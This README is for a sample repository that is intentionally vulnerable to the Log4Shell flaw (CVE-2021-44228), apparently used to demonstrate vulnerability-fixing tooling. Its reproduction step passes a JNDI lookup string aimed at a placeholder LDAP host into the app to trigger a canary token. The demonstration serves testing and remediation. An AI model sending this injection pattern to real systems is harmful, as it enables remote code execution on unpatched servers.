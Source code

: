 # sample-vulnerable-log4j-direct-app

This repository is a sample repository that is vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).

## Repro of vulnerability

First, visit http://canarytokens.org/ and create a new Log4Shell token (that emails you when it gets triggered). Then run the following command in this repository, where the `--args` value is the `${jndi:...}` value that you got when creating the canary token.

``` shell
./gradlew run --args='${jndi:ldap://some.host.example.com/}'
```

You will get an email that your canary token was triggered when you run that command (if the vulnerable log4j version is used).

## Related repositories

The following repositories are used to demonstrate Sourcegraph functionality related to fixing [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228):

- https://github.com/sourcegraph/sample-vulnerable-log4j-direct-app
- https://github.com/sourcegraph/sample-vulnerable-log4j-direct-lib
- https://github.com/sourcegraph/sample-vulnerable-log4j-indirect-app